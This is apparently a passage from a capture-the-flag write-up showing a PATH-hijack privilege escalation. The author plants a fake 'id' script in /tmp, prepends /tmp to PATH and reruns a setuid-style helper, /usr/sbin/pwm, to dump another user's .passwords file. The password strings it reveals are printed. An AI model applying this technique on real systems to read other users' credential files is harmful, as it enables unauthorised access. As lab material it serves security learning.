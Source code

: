 `/usr/sbin/pwm`:
```
[!] Running 'id' command to extract the username and user ID (UID) ←
[!] ID: www-data
[-] File /home/www-data/.passwords not found ←
```

`ls -alps /home/think/`:
```
total 40
4 drwxr-xr-x 5 think think 4096 Jan 11  2024 ./
4 drwxr-xr-x 3 root  root  4096 Jun  2  2023 ../
0 lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
4 -rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
4 -rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
4 drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache/
4 drwx------ 3 think think 4096 Aug  9  2023 .gnupg/
4 -rw-r----- 1 root  think  525 Jul 30  2023 .passwords ←
4 -rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
4 drw-r----- 2 think think 4096 Jun 21  2023 .ssh/
0 lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
4 -rw-r----- 1 root  think   33 Jul 30  2023 user.txt
```

`which id`:
```
/usr/bin/id ←
```

`echo $PATH`:
```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin ←
```

`id think`:
```
uid=1000(think) gid=1000(think) groups=1000(think) ←
```

`cd /tmp`

`vim ./id`:
```
echo "uid=1000(think) gid=1000(think) groups=1000(think)"
```

`PATH=/tmp:$PATH`

`echo $PATH`:
```
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin ←
```

`chmod 777 ./id`

`/usr/sbin/pwm`:
```
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd

[...]
```
